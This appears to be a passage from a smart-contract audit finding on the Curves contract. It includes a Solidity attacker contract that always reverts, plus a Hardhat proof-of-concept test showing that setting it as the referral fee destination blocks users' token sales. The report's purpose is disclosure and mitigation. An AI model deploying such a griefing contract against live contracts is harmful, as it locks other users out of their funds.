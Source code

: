 ```diff
+
+ contract Attack {
+     fallback() external payable {
+         revert();
+     }
+ }
```
```diff
diff --git a/test/curves.ts b/test/curves.ts
index 4d31e57..42f7a07 100644
--- a/test/curves.ts
+++ b/test/curves.ts
@@ -22,7 +22,31 @@ describe("Curves Contract test", () => {
       expect(true).to.equal(true);
     });
   });
+  describe.only("PoC", () => {
+    it("Push-Over-Pull Griefing", async () => {
+      await testContract.setMaxFeePercent(1000);
+      await testContract.setProtocolFeePercent(50,owner.address);
+      await testContract.setExternalFeePercent(1,900,1);
 
+      await testContract.buyCurvesToken(owner.address, 1);
+
+      const AttackerContract = await ethers.getContractFactory("Attack");
+      const attackerContract = await AttackerContract.deploy();
+
+      await testContract.connect(friend).buyCurvesToken(owner.address, 10,{value: ethers.utils.parseEther("10.0")});
+
+      //Set owner also known as `curveSubject` address
+      await testContract.setReferralFeeDestination(owner.address,attackerContract.address);
+      const referral = await testContract.referralFeeDestination(owner.address);
+      expect(referral).to.equal(attackerContract.address);
+
+      // Will revert
+      await expect(testContract.connect(friend).sellCurvesToken(owner.address,10)).to.be.revertedWith('CannotSendFunds()');
+
+    });
  Curves Contract test
    PoC
      ✔ Push-Over-Pull Griefing
```
### Tools Used
Manual Review

### Recommended Mitigation Steps
Enforce a pull-over-push payment system. Example

